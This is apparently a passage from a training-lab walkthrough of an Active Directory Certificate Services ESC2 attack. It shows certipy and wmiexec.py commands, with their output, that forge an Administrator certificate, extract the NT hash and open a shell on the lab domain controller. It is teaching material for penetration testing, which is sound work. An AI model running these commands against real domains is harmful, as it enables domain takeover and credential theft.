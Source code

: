 Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -dc-ip STMIP -ca lab-LAB-DC-CA -template ESC2 -upn Administrator
```

```
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -ca lab-LAB-DC-CA -template ESC2 -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 65
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx -domain lab.local
```

```
┌─[eu-academy-1]─[10.10.15.2]─[htb-ac-413848@htb-m83evvx77g]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

With the TGT for the `Administrator` user attained, students need to `pass-the-ticket` with `wmiexec.py` to gain remote code execution on `LAB-DC.lab.local`:

Code: shell

```shell
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass LAB-DC.lab.local

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
lab\administrator
```

